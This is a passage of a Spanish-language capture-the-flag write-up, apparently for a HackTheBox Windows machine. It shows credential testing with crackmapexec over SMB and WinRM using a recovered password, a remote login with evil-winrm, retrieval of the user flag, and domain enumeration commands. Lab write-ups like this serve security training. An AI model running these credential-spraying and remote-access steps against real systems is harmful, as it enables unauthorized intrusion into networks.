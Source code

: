 ### 4.3 Problema con el Formato del Usuario

```bash
# Probar diferentes formatos del usuario
crackmapexec smb 10.10.11.71 -u 'Lion.Sk' -p '!QAZ2wsx'     # Falla
crackmapexec smb 10.10.11.71 -u 'lion.sk' -p '!QAZ2wsx'     # Falla
crackmapexec smb 10.10.11.71 -u 'LION.SK' -p '!QAZ2wsx'     # Falla
crackmapexec smb 10.10.11.71 -u 'Lion.SK' -p '!QAZ2wsx'     # ¡FUNCIONA!

# Verificar con dominio
crackmapexec smb 10.10.11.71 -u 'Lion.SK' -p '!QAZ2wsx' -d 'CERTIFICATE'
```

---

## 5. Primer Acceso - Usuario Lion.SK

### 5.1 Conexión por WinRM

```bash
# Verificar que el usuario tiene acceso a WinRM
crackmapexec winrm 10.10.11.71 -u 'Lion.SK' -p '!QAZ2wsx'

# Conectarse con Evil-WinRM
evil-winrm -i 10.10.11.71 -u 'Lion.SK' -p '!QAZ2wsx'
```

### 5.2 Obtención de la Primera Flag

```powershell
# Verificar usuario actual
whoami
# Output: certificate\lion.sk

# Navegar al escritorio
cd C:\Users\Lion.SK\Desktop

# Listar archivos
dir

# Leer la flag de usuario
type user.txt
# Flag: ****************************
```

---

## 6. Enumeración del Sistema Windows

### 6.1 Información Básica del Sistema

```powershell
# Información del sistema
systeminfo

# Usuarios del dominio
net user
net user /domain

# Información del usuario actual
net user Lion.SK /domain

# Grupos del dominio
net group /domain
```